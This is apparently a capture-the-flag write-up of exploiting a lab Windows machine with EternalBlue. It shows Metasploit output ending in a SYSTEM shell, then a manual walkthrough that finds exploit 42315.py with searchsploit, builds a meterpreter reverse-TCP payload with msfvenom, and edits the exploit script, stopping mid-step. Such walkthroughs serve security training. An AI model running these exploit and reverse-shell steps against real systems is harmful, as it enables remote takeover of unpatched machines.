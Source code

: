 ```
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.14.39:4444 -> 10.10.10.40:49160) at 2019-10-22 00:34:30 -0400
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


C:\Windows\system32>whoami
whoami
nt authority\system
```
<br>
<center><h2>Manual Walkthrough</h2></center>
<br>

Using ```searchsploit``` we can see the python script that we will be using. We want the second one.

```
# searchsploit "Eternal Blue"
--------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                 |  Path
                                                               | (/usr/share/exploitdb/)
--------------------------------------------------------------- ----------------------------------------
Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Ex | exploits/windows/remote/42031.py
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue | exploits/windows/remote/42315.py
Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB Remo | exploits/windows_x86-64/remote/42030.py
--------------------------------------------------------------- ----------------------------------------
```
You can copy it to your current working directory by using the -m option
```
# searchsploit -m exploits/windows/remote/42315.py
```
Now there are a couple steps we have to do before we can actually execute the exploit. First we have to generate our payload.
```
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.39 LPORT=9999 -f exe > blue.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
```
Next we need to edit the python script. First edit the username variable so it contains two ```//```. This is because the SMB server allows guest login
```
USERNAME = '//'
PASSWORD = ''
```
Lastly, uncomment two lines and edit them to point to the payload that you created.
```
def smb_pwn(conn, arch):
        smbConn = conn.get_smbconnection()
```